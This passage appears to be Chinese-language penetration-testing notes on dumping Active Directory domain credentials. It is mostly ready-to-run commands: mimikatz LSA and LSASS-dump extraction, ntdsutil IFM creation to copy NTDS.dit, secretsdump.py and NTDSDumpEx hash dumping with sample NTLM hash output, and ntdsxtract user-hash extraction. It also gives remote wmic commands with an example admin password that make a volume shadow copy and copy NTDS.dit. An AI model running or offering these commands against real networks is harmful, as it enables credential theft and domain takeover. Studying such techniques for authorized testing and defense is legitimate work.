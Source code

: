             mimikatz # lsadump::lsa /inject exit
            or 保存到mimikatz.log:
            mimikatz # log
            mimikatz # privilege::debug
            mimikatz # lsadump::lsa /inject
            mimikatz-lsa.png
        2. 使用MIMIKATZ转储LSASS内存(获取域管理员凭据)
            mimikatz # sekurlsa::minidump c:\temp\lsass.dmp
            mimikatz # sekurlsa::logonpasswords
		3. 使用任务管理器转储LSASS内存(获取域管理员凭据)
			一旦LSASS被转储，mimikatz就可以对lsass.dmp进行提取
			右鍵lsass.exe : Create Dump File
		4. 用NTDSUTIL创建媒体安装集(IFM) (用于抓取NTDS.DIT文件)
			NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令，并且允许为DCPromo准备IFM集。
            IFM是用于DCPromo命令中”从媒体安装”这一过程的，所以，在配置域控时就不需要通过网络从其他域控拷贝数据。
            并且也会在c:/temp目录下生成的一份NTDS.dit附件。
                ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
            創建了temp目錄，下面会生成 ntds.dit 和 SYSTEM / SECURITY
		5. 从NTDS.DIT文件(和注册表系统配置单元)转储活动目录域凭据
			需要 ntds.dit 和 system.hive (由第4步得到)
			https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py (only linux): 
				-> python secretsdump.py -ntds /root/Desktop/temp/Active Directory/ntds.dit -system /root/Desktop/temp/registry/SYSTEM LOCAL
				 -> 
					demo.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
					Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
					OWA2010DC$:1000:aad3b435b51404eeaad3b435b51404ee:aac6185241728f7685c8d50c61573b75:::
					krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f65c6984cbfebdc5f17986d07620afb:::
					OWA2010$:1103:aad3b435b51404eeaad3b435b51404ee:d51220f5659cd982fb3fbe4169093181:::
				or -> https://github.com/zcgonvh/NTDSDumpEx/releases
					NTDSDumpEx.exe -d ntds.dit -o hash.txt -s system.hiv 
					
			进一步从NTDS.DIT获取详细的信息:
			https://github.com/libyal/libesedb/releases
			$ ./configure
			$ make
			$ sudo make install
			$ sudo ldconfig
			root@kali2:~/Desktop/temp# /usr/local/bin/esedbexport -m tables "/root/Desktop/temp/Active Directory/ntds.dit"  
				(ntds.dit中提取出表，20分鐘，两个重要的表为:datatable以及link_table，他们都会被存放在./ntds.dit.export/文件夹中.)
			使用ntdsxtract提取域中信息，一旦表被提取出来，很多python工具可以将这些表中的信息进一步提取，比如ntdsxtract就可以完美进行。
			https://github.com/csababarta/ntdsxtract.git
			root@kali2:~/Desktop/ntdsxtract-master# python dsusers.py /root/Desktop/temp/ntds.dit.export/datatable.3 /root/Desktop/temp/ntds.dit.export/link_table.5 output --syshive /root/Desktop/temp/registry/SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt
			root@kali2:~/Desktop/ntdsxtract-master# python dscomputers.py /root/Desktop/temp/ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
            libesedb__ntdsxtract__ntds.dit.png
        6. 可创建和使用GOLDEN TICKET
        7. 卷影复制(VSS)
            ntds.dit我们是没法直接进行复制拷贝的，会提示文件已被占用，这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
            1.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
            2.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID/Windows/NTDS/NTDS.dit C:/windows/temp/NTDS.dit 2>&1"
  